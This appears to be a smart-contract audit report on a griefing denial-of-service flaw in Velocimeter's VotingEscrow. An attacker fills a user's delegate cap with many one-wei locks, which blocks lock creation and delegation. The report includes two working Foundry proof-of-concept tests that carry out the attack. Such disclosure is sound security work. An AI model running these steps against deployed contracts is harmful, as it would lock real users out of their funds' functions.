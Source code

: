 Square Arctic Chicken

Medium

# `create_lock(...)` can be DOS'd preventing users from creating lock in the `VotingEscrow`

## Summary
The `VotingEscrow::delegate(..)` function can be used to grief user and delegatees preventing
- users from creating lock for themselves
- other users from delegating to their desired delegatee 
- token owners cannot split their token because the new token from the split cannot be minted to them
leading to a denial of service for users.

I added two POCs for the two scenarios explained below


## Vulnerability Detail
This vulnerability exist because there is an assumption the transaction calls involving delegation [could exceed block gas limit](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1266), however the IOTA network TANGLE implementation eliminates the concept of block gas limit

**SCENARIO 1**

- Alice creates lock in the `ve` with 5e18 lp token with intention of delegating to Max
- Bob creates 1023 locks with 1 wei of lp tokens
- Bob delegates all his 1023 tokens to Alice
- Alice tries to create another lock with her remaining 5e18 lp tokens but the function reverts

**SCENARIO 2**

- Alice creates lock in the `ve` with 10e18 lp token with intention of delegating to Max
- Bob creates 1024 locks with 1 wei of lp tokens
- Bob delegates all his 1024 tokens to Max
- Alice calls `delegate(max)`  but her call reverts because max has exceeded his maximum number of delegates
- the attack is cheap and it cost bob only 1024 wie of lptokens and gas


On the other hand, bob can continue to do this with as many users considering gas is cheap on IOTA network


** CODED POC**
- Scenario 1 POC

<details>
<summary>Add the poc to the `VotingEscrow.t.sol` file and run `forge test --mt testCreateLockCanBeGriefed -vvv`</summary>


```solidity
    address alice = address(0x03);
    address bob = address(0x04);
    address max = address(0x05);
    // he can use this to dos many users from creating lock considering the attack is cheap
    function testCreateLockCanBeGriefed() public {
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        // Balance should be zero before and 1 after creating the lock
        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration);
        assertEq(escrow.currentTokenId(), 1);
        assertEq(escrow.ownerOf(1), address(owner));
        assertEq(escrow.balanceOf(address(owner)), 1);


        // for demonstration purposes, give Alice and Bob lpTokens to spend
        vm.startPrank(address(owner));
        flowDaiPair.transferFrom(address(owner), alice, 10e18);
        flowDaiPair.transferFrom(address(owner), bob, 10000 wei);
        vm.stopPrank();

        // Alice creates lock
        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), 5e18);
        escrow.create_lock(5e18, lockDuration);
        vm.stopPrank();

        // Bob griefs alice by delegating to her delegation
        vm.startPrank(address(bob));
        for(uint i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            flowDaiPair.approve(address(escrow), 1 wei);
            escrow.create_lock(1 wei, lockDuration);
        }
        escrow.delegate(alice);
        vm.stopPrank();

        // Alice attempts to creates another lock but reverts
        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), 5e18);
        vm.expectRevert("dstRep would have too many tokenIds");
        escrow.create_lock(5e18, lockDuration);
        vm.stopPrank();

    }
```
</details>

- Scenario 2 POC

<details>
<summary>Add the poc to the `VotingEscrow.t.sol` file and run `forge test --mt testDelegateCanBeGriefed -vvv`</summary>


```solidity
    address alice = address(0x03);
    address bob = address(0x04);
    address max = address(0x05);
    // he can use this to prevent many delegations considering the attack is cheap
    function testDelegateCanBeGriefed() public {
        flowDaiPair.approve(address(escrow), TOKEN_1);
        uint256 lockDuration = 7 * 24 * 3600; // 1 week

        // Balance should be zero before and 1 after creating the lock
        assertEq(escrow.balanceOf(address(owner)), 0);
        escrow.create_lock(TOKEN_1, lockDuration);
        assertEq(escrow.currentTokenId(), 1);
        assertEq(escrow.ownerOf(1), address(owner));
        assertEq(escrow.balanceOf(address(owner)), 1);


        // for demonstration purposes, give Alice and Bob lpTokens to spend
        vm.startPrank(address(owner));
        flowDaiPair.transferFrom(address(owner), alice, 10e18);
        flowDaiPair.transferFrom(address(owner), bob, 10000 wei);
        vm.stopPrank();

        // Bob griefs sams delegation
        vm.startPrank(address(bob));
        for(uint i = 0; i < escrow.MAX_DELEGATES(); i++) {
            flowDaiPair.approve(address(escrow), 1 wei);
            escrow.create_lock(1 wei, lockDuration);
        }
        escrow.delegate(max);
        vm.stopPrank();

        // Alice delegation to max reverts
        vm.startPrank(address(alice));
        flowDaiPair.approve(address(escrow), 10e18);
        escrow.create_lock(10e18, lockDuration);
        vm.expectRevert("dstRep would have too many tokenIds");
        escrow.delegate(max);
        vm.stopPrank();

    }
```
</details>


Also note that this can also prevent alice from splittng her token

## Impact
A malicious actor can 
- block other users delegation
- prevent users from creating locks for themselves


## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1398-L1401

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1266

## Tool used
Foundry Test

## Recommendation
A trivial solution is not recommended at the moment, however considering there is no block gs limit on the IOTA network, consider removing the 1024 max delegates restriction because IOTA uses a Tangle consensus mechanism which eliminates the concept of blocks with fixed sizes 
